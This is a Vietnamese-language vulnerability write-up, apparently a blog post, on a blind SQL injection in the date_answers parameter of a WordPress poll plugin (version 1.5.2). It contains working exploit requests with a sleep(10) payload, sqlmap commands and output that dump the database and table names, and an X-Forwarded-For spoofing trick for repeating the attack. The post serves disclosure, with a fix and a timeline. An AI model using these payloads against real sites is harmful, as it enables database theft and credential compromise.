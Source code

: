```yaml
---
title: WordPress Plugin Poll, Survey, Questionnaire and Voting system 1.5.2 - 'date_answers' Blind SQL Injection
date: 5/07/2021
layout: single
--- 
```


## Mô tả
Tác giả khai thác: inspired - Toby Jackson

Một lỗ hổng đã được phát hiện trong plugin wpdevart wordpress "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.0 và 1.5.2. Có thể thực hiện chèn SQL mù vào tham số date_answers [] khi bỏ phiếu. Điều này có thể được sử dụng để kết xuất cơ sở dữ liệu back end. Phiên bản 1.5.2 yêu cầu thay đổi tiêu đề bằng phương pháp thích hợp để giả mạo địa chỉ IP, chẳng hạn như X-Forwarded-For

+ Nguồn khai thác [exploits/50052](https://www.exploit-db.com/exploits/50052)
## Vulnerable Code 

Mã dễ bị tấn công nằm trong trang front_end.php trong hàm save_poll_in_databese (). Nó lấy $ question_id và $ current_user_ip trước khi lưu trữ phiếu bầu trong một biến có tên là $ new_voted_array, như được thấy bên dưới, từ tham số bài đăng date_answers

```php
$new_voted_array=$_POST['date_answers'];

```
Sau đó, mảng được lặp lại và biến $ new_answer được sử dụng như một phần của truy vấn where mà không bị khử trùng.

```php
if($new_voted_array)
  foreach($new_voted_array as $new_answer)  {
    $wpdb->query('UPDATE '.$wpdb->prefix.'polls SET vote = vote+1 WHERE `question_id` = '.$question_id.' AND `answer_name` = '.$new_answer.'');

```

## Demo 
```shell
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=sleep(10)
------

```
Bằng cách sử dụng điều này, cơ sở dữ liệu có thể dễ dàng được kết xuất bằng cách nắm bắt yêu cầu, với một bộ đánh chặn như burpsuite và sử dụng sqlmap. Bằng cách đặt dấu * tại điểm tiêm cần thiết, sqlmap sẽ kiểm tra vị trí này trước tiên.


```shell 
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=*
------

```
Lưu tập tin này dưới dạng  request.txt và chạy công cụ.

```shell
------
python sqlmap.py -r request.txt --dbms=mysql --dbs --level=5 --risk=3

[14:30:54] [INFO] testing MySQL
[14:30:54] [INFO] confirming MySQL
[14:30:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.46
back-end DBMS: MySQL >= 8.0.0
[14:30:54] [INFO] fetching database names
[14:30:54] [INFO] fetching number of databases
[14:30:54] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:30:54] [INFO] retrieved: 2
[14:30:54] [INFO] resumed: information_schema
[14:30:54] [INFO] resumed: wordpress
available databases [2]:
[*] information_schema
[*] wordpress
------
```
```shell
------
python sqlmap -r request.txt --dbms=mysql -D wordpress --tables --level=5 --risk=3

Database: wordpress
[19 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_democracy_a        |
| wp_democracy_log      |
| wp_democracy_q        |
| wp_links              |
| wp_options            |
| wp_polls              |
| wp_polls_question     |
| wp_polls_templates    |
| wp_polls_users        |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
------
```
Trong các phiên bản 1.5.1 và 1.5.2, lỗ hổng này chỉ xảy ra trong lần bỏ phiếu đầu tiên mà người dùng bỏ qua. Thêm tiêu đề X-Forwarded-For ngẫu nhiên vào các yêu cầu sẽ cho phép lặp lại cuộc tấn công như mô tả ở trên.

Điều này đã được chứng minh trong PoC sau

+ [https://youtu.be/Fj1zeXNxDYQ](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)
+ [https://youtu.be/P1r7gk0DSaM](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)

Kẻ tấn công có thể kết xuất cơ sở dữ liệu back-end của máy chủ và giành quyền truy cập vào thông tin đăng nhập của người dùng mà sau đó có thể được sử dụng để thực hiện các hành vi độc hại khác. Nếu được định cấu hình không chính xác, nó cũng có thể dẫn đến việc kẻ tấn công có thể thực thi mã từ xa trên máy chủ

## Nền tảng bị ảnh hưởng 
Các trang web WordPress chạy plugin "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.2 (các phiên bản cũ hơn cũng có thể bị ảnh hưởng).

## Cách khắc phục
Bản cập nhật đã được sửa trong phiên bản 1.5.3, vì vậy bạn nên cập nhật lên phiên bản này nếu sử dụng plugin.

## Thời gian công bố 

+ 9/6/2021: Lỗ hổng bảo mật được xác định.
+ 9/6/2021: Nhà phát triển đã thông báo về lỗ hổng bảo mật.
+ 9/6/2021: Nhà cung cấp trả lời để thảo luận chi tiết hơn về lỗ hổng bảo mật.
+ 9/6/2021: Đã gửi bằng chứng khái niệm cho nhà cung cấp và các khối mã bị ảnh hưởng.
+ 10/6/2021: Email của nhà cung cấp để thông báo lỗ hổng bảo mật đã được khắc phục.
+ 10/6/2021: Bản sửa lỗi ban đầu được xác nhận, nhà cung cấp vui lòng tiết lộ lỗ hổng bảo mật.
+ 10/6/2021: CVE được yêu cầu.
+ 19/6/2021: Liên hệ với WPScan để thảo luận về lỗ hổng bảo mật.
+ 19/6/2021: Bản sửa lỗi đã xác nhận không hợp lệ khi người dùng mới bỏ phiếu hoặc chỉnh sửa tiêu đề.
+ 10/6/2021: Đã liên hệ với nhà cung cấp để yêu cầu sửa chữa thêm.
+ 22/6/2021: Nhà cung cấp xác nhận bản sửa lỗi. Thông tin được công khai.
